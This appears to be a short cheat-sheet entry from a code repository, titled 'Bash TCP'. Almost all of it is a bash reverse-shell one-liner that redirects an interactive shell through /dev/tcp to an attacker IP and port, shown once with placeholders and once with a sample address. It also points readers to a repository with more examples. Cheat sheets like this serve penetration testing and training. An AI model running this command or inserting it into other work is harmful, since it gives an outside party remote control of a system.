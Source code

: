 # bash

**Bash TCP**

```bash
$ bash -i >& /dev/tcp/<attacker_ip>/<port> 0>&1

# eg. 
$ bash -i >& /dev/tcp/10.0.0.1/8888 0>&1
```

Refer to the resources under `Repository` section for more examples
